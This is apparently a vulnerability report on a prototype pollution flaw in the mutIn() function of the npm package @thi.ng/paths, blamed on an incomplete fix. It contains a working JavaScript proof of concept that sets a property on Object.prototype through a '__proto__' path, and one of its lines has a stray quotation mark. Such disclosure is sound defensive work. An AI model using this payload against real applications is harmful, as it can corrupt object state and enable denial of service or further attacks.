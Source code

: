 # Description

`@thi.ng/paths` is vulnerable to `Prototype Pollution`. The vulnerability is due to an incomplete fix. `mutIn()` function does not have fix implemented.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const paths = require('@thi.ng/paths')

console.log("Before: ", {}.polluted")
paths.mutIn({}, '__proto__.polluted', true)
console.log("After: ", {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i @thi.ng/paths # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.
